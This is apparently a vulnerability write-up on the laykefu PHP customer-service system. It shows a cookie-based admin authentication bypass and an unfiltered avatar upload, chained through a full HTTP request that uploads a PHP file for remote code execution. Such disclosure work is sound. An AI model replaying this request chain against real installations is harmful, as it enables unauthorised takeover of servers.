



## Source code introduction

Development language: PHP
Development framework: ThinkPHP5.0.24
Project address: https://github.com/shmilylbelva/laykefu

## code analysis
### Authentication bypass vulnerability

The vulnerability file is in "application/admin/controller/Base.php", and the vulnerability code is as follows:

```
class Base extends Controller
{
    public function _initialize()
    {
        if(empty(cookie('user_name'))){
            $this->redirect(url('login/index'));
        }

        $this->assign([
            'version' => config('version')
        ]);
    }
}
```
As you can see, when the "user_name" value in the cookie is not empty, it will not jump to login.
To verify the vulnerability, we use the browser plug-in "ModHeader - Modify HTTP headers", set the cookie value to "user_name=1", and access the backend address to directly enter the backend.
The demonstration process is as shown below. If you can’t see clearly, please check the original picture.


### File upload
The vulnerability file is in the "upAvatar()" function under "application/admin/controller/Users.php". The vulnerability code is as follows:

```
public function upAvatar()
{
    if(request()->isAjax()) {

        $file = request()->file('file');
        if (!empty($file)) {
            // 移动到框架应用根目录/public/uploads/ 目录下
            $info = $file->move(ROOT_PATH . 'public' . DS . 'uploads');
            if ($info) {
                $src = '/uploads' . '/' . date('Ymd') . '/' . $info->getFilename();
                return json(['code' => 0, 'data' => ['src' => $src], 'msg' => 'ok']);
            } else {
                // 上传失败获取错误信息
                return json(['code' => -1, 'data' => '', 'msg' => $file->getError()]);
            }
        }
    }
}
```
It can be seen that there is no filtering of uploaded files. This method requires logging in to the administrator. However, by combining the above identity authentication bypass vulnerability, login restrictions can be bypassed and dangerous files (php files) can be uploaded to the server.
Construct a request packet to send a data packet.

```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/2.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```
The file was successfully uploaded to the target server. The demonstration picture is as follows:


Then access the uploaded file and successfully RCE.

